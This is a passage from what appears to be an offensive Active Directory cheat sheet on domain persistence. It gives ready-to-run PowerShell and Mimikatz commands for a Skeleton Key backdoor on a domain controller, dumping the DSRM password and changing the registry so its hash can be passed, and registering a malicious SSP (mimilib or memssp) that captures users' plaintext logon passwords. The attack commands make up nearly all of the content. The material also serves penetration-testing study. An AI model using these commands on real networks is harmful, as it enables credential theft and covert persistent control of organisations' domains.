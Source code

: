 ⧉ Copied!

[SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

```powershell
#Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

#Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

⧉ Copied!

### DSRM Abuse

*WUT IS DIS?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!*

```powershell
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

⧉ Copied!

Then just PTH to get local admin access on DC!

### Custom SSP

*WUT IS DIS?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!*

From powershell:

```powershell
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```
